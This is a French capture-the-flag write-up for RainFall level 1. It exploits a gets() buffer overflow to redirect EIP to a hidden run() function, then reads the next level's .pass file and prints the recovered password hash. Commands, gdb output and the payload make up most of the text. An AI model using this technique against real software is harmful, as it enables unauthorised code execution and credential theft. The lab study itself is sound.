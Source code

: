 # Analyse du code

Il y a deux fonctions. La main et un autre fonction run qui elle n'est pas appeler dans le main.
La fonction gets est appeler pour remplir un buffer, sans controle prealable.
A cause de cela, si l'input est plus grand que buffer il y a un depassement de tampon
On pourra donc rediriger EIP vers run()

# Preparation du payload

- Adresse de run() :
level1@RainFall:~$ objdump -t ./level1 | grep run
08048444 g     F .text  0000003c              run

- taille buffer :
gdb ./level1
(gdb) b *0x08048490 ; (adresse du call de gets)
(gdb) r < <$(python -c "print('a' * 76 + 'bbbb')")
[ apres 3 sauts instructions, au moment du segfault nous voyons que eip a bien ete ecrasse ]
(gdb) info registers
[...]
eip            0x62626262       0x62626262 ; 62 = b en ascii
[...]

- payload :
	python -c 'print("a"*76 + "\x44\x84\x04\x08")' > /tmp/_

# Exploit
	cat /tmp/_ - | ./level
	cat  /home/user/level2/.pass
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77